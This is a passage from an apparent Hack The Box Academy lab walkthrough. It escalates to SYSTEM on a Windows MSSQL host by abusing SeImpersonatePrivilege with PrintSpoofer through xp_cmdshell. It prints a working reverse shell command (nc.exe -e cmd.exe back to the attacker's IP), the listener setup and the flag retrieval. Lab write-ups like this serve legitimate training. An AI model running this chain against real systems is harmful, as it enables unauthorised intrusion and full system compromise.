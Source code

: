 **✅ Critical Finding**: `SeImpersonatePrivilege` is **Enabled** - this allows privilege escalation!

#### 4. Set Up Reverse Shell Listener (New Terminal)
```bash
┌─[us-academy-1]─[10.10.14.143]─[htb-ac330204@pwnbox-base]─[~]
└──╼ [★]$ nc -lvnp 8443

Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::8443
Ncat: Listening on 0.0.0.0:8443
```

#### 5. Execute PrintSpoofer Privilege Escalation
```cmd
SQL> xp_cmdshell c:\tools\PrintSpoofer.exe -c "C:\tools\nc.exe 10.10.14.143 8443 -e cmd.exe"

output                                                                             
--------------------------------------------------------------------------------   
[+] Found privilege: SeImpersonatePrivilege                                        
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```

#### 6. Receive SYSTEM Shell
```bash
┌─[us-academy-1]─[10.10.14.143]─[htb-ac330204@pwnbox-base]─[~]
└──╼ [★]$ nc -lvnp 8443

Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::8443
Ncat: Listening on 0.0.0.0:8443
Ncat: Connection from 10.129.43.43.
Ncat: Connection from 10.129.43.43:49699.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

#### 7. Verify SYSTEM Access & Retrieve Flag
```cmd
C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>hostname
WINLPE-SRV01

# Retrieve the flag
C:\Windows\system32>type C:\Users\Administrator\Desktop\SeImpersonate\flag.txt
[FLAG_CONTENT_HERE]
```

### Alternative Methods
